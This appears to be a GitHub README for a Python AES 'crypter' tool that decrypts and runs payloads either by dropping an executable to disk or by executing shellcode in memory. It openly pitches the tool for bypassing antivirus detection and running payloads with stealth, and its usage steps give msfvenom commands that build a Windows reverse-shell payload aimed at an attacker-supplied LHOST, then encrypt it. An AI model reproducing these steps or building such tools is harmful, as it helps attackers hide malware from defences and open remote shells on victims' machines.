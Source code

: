 # 🔐 AES Crypter - Scantime & Runtime

This is a simple AES-based crypter project with two modes:

- **Scantime Crypter**: decrypts and drops an encrypted `.exe` to disk, then runs it.
- **Runtime Crypter**: decrypts and executes raw shellcode directly in memory (no file drop).

Both versions are written in Python and support custom payloads.

---

## 💡 Why use it?

Crypters are useful for obfuscating or encrypting payloads to bypass antivirus detection.  
This tool is ideal for red teamers, penetration testers, or researchers who want to test AV evasion techniques and execute payloads with higher stealth — especially in restricted environments.

<p align="center">
  <img src="demo.gif" alt="Demo">
</p>

---

## 🚀 Usage

### 1. Install the dependencies

- `pip install pycryptodome`
- `pip install pyinstaller`

### 2. Generate your payload

- For runtime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o payload.bin`

- For scantime:
  `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o payload.exe`

### 3. Encrypt your payload

- `python.exe scantime/runtime.py payload.exe/.bin`

